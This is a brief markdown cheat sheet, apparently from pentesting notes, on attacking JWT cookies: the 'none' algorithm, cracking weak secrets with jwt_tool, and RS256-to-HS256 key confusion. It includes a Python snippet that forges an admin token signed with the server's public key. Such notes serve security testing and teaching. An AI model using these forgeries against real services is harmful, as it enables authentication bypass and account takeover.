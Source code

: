 # Cookies

## JWT token

### None algo 

Jwt cookies can be vulnerable if signature is not properly checked !
If so, we can modify the alg to none and delete the signature and modify the payload.

### Weak secret

We can crack the signature too with jwt tool https://github.com/ticarpi/jwt_tool

### RS256 to HS256

Misconfigured backend can be vunlerable if it doesnt check properly the return algo.
If we modify the algo from RS256 to HS256 and we use the public key as the secret, the backend will check the token with HS256 algo with the public key as the signature

HOW TO 

Save the key in a key.pem file
❗❗❗ Respect this format

-----BEGIN PUBLIC KEY-----\n
key\n
-----END PUBLIC KEY----- 

		import jwt
		public = open('key.pem','r').read()
		public = "\n".join(public.split('\n'))+"\n"
		print(jwt.encode({"username":"admin"}, key=public, algorithm='HS256')) 


